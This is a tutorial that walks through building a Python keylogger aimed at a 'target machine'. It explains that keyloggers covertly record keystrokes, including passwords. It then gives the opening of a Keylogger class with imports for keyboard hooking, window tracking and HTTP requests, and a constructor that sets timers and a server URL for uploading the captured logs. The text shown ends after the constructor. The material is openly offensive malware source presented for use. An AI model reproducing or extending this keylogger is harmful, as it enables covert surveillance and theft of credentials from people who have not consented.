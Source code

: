 ```yaml
---
title: Capture keystrokes from target machine with python
published: true
---
```


In this article, we will explore the concept of a keylogger and how it can be implemented using the Python programming language. A keylogger is a type of surveillance software that tracks and records the keys struck on a keyboard, typically in covert manner. This information can then be used for various purposes, such as monitoring a user's activity or capturing sensitive information such as passwords.

### [](#header-3) what is a keylogger?
A keylogger is a piece of software or hardware that is used to record the keystrokes that are typed on a keyboard. Keyloggers can be used for a variety of purposes, such as monitoring user activity on a computer, recovering lost or forgotten passwords, and even as a form of surveillance. Keyloggers are often used by hackers to obtain sensitive information such as passwords and credit card numbers. Some keyloggers are designed to be stealthy and difficult to detect, while others may be openly installed with the user's knowledge. Keyloggers can be installed on a computer without the user's knowledge or consent, and can pose a serious security risk if not properly protected against.

### [](#header-3) Let's code

```python
from pynput.keyboard import Listener
import tempfile
import threading
import os
import win32gui
from datetime import datetime
import requests
```

the `__init__` method of the Keylogger class initializes several attributes with default values, including the `logTimer`, `reportTimer`, `sizeThreshold`, and `serverURL` attributes. It also sets the `log_timer` and `report_timer` attributes to None, and changes the working directory to the system's temporary directory. Finally, it cancels the `log_timer` and `report_timer` if they are not `None`.

```python
class Keylogger:
    # The constructor initializes the Keylogger's attributes with default values
    # for the log timer, report timer, size threshold, and server URL
    def __init__(self, logTimer=60, reportTimer=3600, sizeThreshold=10000, serverURL="http://127.0.0.1:5000/log"):
        self.string = ''  # the string to log key presses to
        self.window = ''  # the name of the current window
        self.logTimer = logTimer  # the interval at which to log key presses to a file
        # the interval at which to report log data to the server
        self.reportTimer = reportTimer
        # the size threshold at which to report log data to the server
        self.sizeThreshold = sizeThreshold
        self.log_timer = None  # a timer object for logging key presses to a file
        self.report_timer = None  # a timer object for reporting log data to the server
        self.serverURL = serverURL  # the URL of the server to report log data to
        # Change the working directory to the system's temporary directory
        os.chdir(tempfile.gettempdir())
        # Cancel the log_timer and report_timer if they are not None
        if self.log_timer is not None:
            self.log_timer.cancel()
        if self.report_timer is not None:
            self.report_timer.cancel()
```